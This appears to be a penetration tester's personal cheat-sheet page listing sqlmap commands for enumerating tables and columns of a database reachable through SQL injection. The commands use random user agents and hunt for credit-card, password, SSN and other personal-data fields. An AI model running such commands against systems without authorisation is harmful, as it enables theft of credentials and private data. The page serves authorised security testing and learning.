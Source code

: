 # 04 - Tables and Columns

Search Tag: #sqlmap #enumeration-and-discovery

## 4.1 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u <URL> --random-agent --search -D <database> -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u <URL> --random-agent -D <database> --tables
```

- Count number of tables

```
$ sqlmap -u <URL> --random-agent -D <database> --tables --count
```

- Search for specific tables

```
$ sqlmap -u <URL> --search -T credit_cards,users
```

## 4.2 - Columns Enumeration

```
$ sqlmap -u <URL> --random-agent -D <database> -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u <URL> --random-agent --statements
```

```
$ sqlmap -u <URL> --random-agent --comments
```

- Search for specific tables

```
$ sqlmap -u <URL> --search -C email,contact,number,mobile,mobile_alt,phone,telephone,fax,user,username,uname,pass,password,passwd,pwd,ssn,cc,ccn,ip,userip,lastip,address,name,fullname,sex,gender,nationality,state,country,postcode,dob
```